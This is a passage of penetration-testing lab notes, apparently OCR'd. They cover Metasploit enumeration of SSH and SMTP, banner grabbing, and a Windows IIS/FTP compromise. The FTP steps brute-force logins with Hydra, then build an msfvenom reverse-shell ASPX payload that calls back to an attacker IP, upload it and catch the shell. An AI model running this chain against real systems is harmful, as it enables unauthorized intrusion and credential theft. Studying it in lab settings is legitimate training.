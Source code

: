                     `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt`
                    
                    `run sysadmin:hailey`
                    
                6. `use auxiliary/scanner/ssh/ssh_enumusers`
                    
                    `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
                    
            - SMTP
                
                Simple Mail Transfer Protocol - 25,465, 587
                
                1. `service postgresql start && msfconsole`
                2. `workspace -a smtp_enum`
                3. `setg rhosts 10.10.10.10`
                4. `use auxiliary/scanner/smtp/smtp_version`
                5. `use auxiliary/scanner/smtp/smtp_enum`
        
    - Exploitation
        
        **Banner Grabbing**
        
        - `nmap -sV --script=banner 192.167.72.3`
        - `nc 192.167.72.3 22`
        
        **Searching for exploits**
        
        - Exploitdb
            
        - searchsploit
            
        - google hacking database
            
        - CVE
            
        - Windows Exploitation
            
            - `nmap -sV 10.2.29.246`
            - `nmap -T4 -PA -sC -sV -p 1-10000 10.2.29.246 -oX nmap_10k`
            - `service postgresql start && msfconsole`
            - `db_status workspace -a Win2k8 setg RHOST 10.2.29.246 setg RHOSTS 10.2.29.246 db_import nmap_10k`
            - `hosts services use auxiliary/scanner/smb/smb_version run hosts`
            
            1. **IIS/FTP**
            
            - `nmap -sV -sC -p21,80 10.2.29.246`
            - `ftp 10.2.29.246` - anonymous login failed
            - `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp`
            - `hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I`
            - Now login using valid user cred
            - `ftp 10.2.29.246` Use administartor:vagrant
            - Create one .asp and upload to ftp
            - `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx`
            - `ftp 10.2.29.246` Use vagrant:vagrant
            - `put shell.aspx`
            - Go to msfconsole session
            - `use multi/handler set payload windows/shell/reverse_tcp set LHOST 10.10.24.4 set LPORT 1234`
            - Open the browser and navigate to 10.2.29.246/shell.aspx
            - got reverse shell
            